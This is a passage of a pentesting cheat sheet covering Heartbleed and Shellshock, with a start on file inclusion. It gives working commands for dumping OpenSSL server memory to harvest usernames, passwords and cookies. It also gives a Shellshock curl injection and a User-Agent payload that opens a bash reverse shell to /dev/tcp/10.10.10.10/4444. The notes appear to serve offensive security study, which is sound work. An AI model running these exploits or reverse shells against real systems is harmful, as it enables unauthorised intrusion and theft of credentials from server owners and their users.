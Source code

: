 	Default creds - admin: admin, admin:password, service specific default creds   
	Register a new user  
	Brute force log in  
	SQL injection  
# Shellshock and Heartbleed    
## Heartbleed   
Testing: scan using nmap heartbleed script   

    nmap -p 443 -sV --script ssl-heartbleed www.site.org    
Example: Exploit the Heartbleed vulnerability to steal the following from a vulnerable OpenSSL server's RAM: Username, Password, Cookie     
RAM is unpredictable, so you may need to run heartbleed.py multiple times. Must use Firefox / HTTPS to browse to site, perform 2 logins - first login will be in RAM.    
https://gist.github.com/eelsivart/10174134     
Save a local copy of the RAM contents that are disclosed via heartbleed. By default, heartbleed.py will write dump.bin to the current directory.    

    heartbleed.py -f /home/user/dump.bin heartbleed.site.org | less     
    strings /home/student/dump.bin    -> look for creds / cookie    

## Shellshock   
Metasploit module or 34900.py ("Apache mod_cgi - 'Shellshock' Remote Command Injection")   
Bug in Bash shell itself incorrectly executing trailing commands when it imports a function definition stored in an enviroment variable. Commonly found in CGI-based webservers, which use user input to define enviromental variables.     
Syntax: () { :; }   
Manual test for CGI based webservers: 
    
    curl -x http://192.168.90.61:3128 -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" -L http://10.10.10.10/cgi-bin/status
Nmap script check:   

    nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.10   
To exploit change vulnerable field in HTTP request (likely UAS) to a reverse shell command:        
    
    User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1    

 
# File Inclusion    
[Local File Inclusion](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref)   
[Guide to LFI](http://www.securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)    
[PayloadAllTheThings FI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)  

## Local File Inclusion 
### File Upload Pages
